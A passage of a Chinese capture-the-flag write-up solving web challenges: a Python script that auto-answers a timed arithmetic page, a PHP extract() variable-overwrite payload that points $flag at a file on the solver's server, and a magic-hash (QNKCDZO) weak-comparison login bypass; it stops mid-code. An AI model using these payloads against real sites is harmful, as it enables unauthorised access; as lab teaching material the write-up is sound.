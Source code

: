 访问页面随机生成数字，要求半秒内计算结果并提交，人类肯定办不到，所以还是得写脚本：
```python
#!/usr/bin/env python
import requests
import re

url = "http://202.120.7.220:2333/"
session = requests.Session()
res = session.get(url)
#print res.content
content = res.content
math = re.findall(r"\d+\*\d+\+\d+\*\(\d+\+\d+\)=",content)[0]
num = re.findall(r"\d+",math)
#print num
result = int(num[0])*int(num[1])+int(num[2])*(int(num[3])+int(num[4]))
#print result
data = {'v':result}
res1 = session.post(url,data=data)
print res1.content
```
# 0x05 php trick
右键查看源码，html注释中是index.php的源码
```php
<!--
    	index.php
    	<?php
		$flag='xxx';
		extract($_GET);
		if(isset($gift)){
		    $content=trim(file_get_contents($flag));
		    if($gift==$content){
		       echo'flag';     }
		     else{
		       echo'flag被加密了 再加密一次就得到flag了';}
		     }
		?>
		-->
```
extract()函数造成变量覆盖导致$gift,$flag可以通过get传入值覆盖，file_get_contents()函数支持http协议远程读取文件，所以在vps上构造1.txt内容123，最终payload：

> 202.120.7.221:2333/index.php?gift=123&#38;flag=http://xxxxxx/1.txt (vps地址)

# 0x06 不是管理员也能login
说明与帮助中给出代码：
```php
<?
$test=$_GET['userid']; $test=md5($test);
   if($test != '0'){
       $this->error('用户名有误,请阅读说明与帮助！');
    }
?>
```
用户名Md5值要等于0,这道题考点是php弱类型比较，让用户名Md5值格式为0e?????即可，科学技术法0的无论多少次方还是为0,构造用户名为：**QNKCDZO**，md5值0e830400451993494058024219903391
右键源码：
```php
<?
$pwd =$this->_post("password");
$data_u = unserialize($pwd);
if($data_u['name'] == 'XX' && $data_u['pwd']=='XX')
    {
      print_r($flag);
```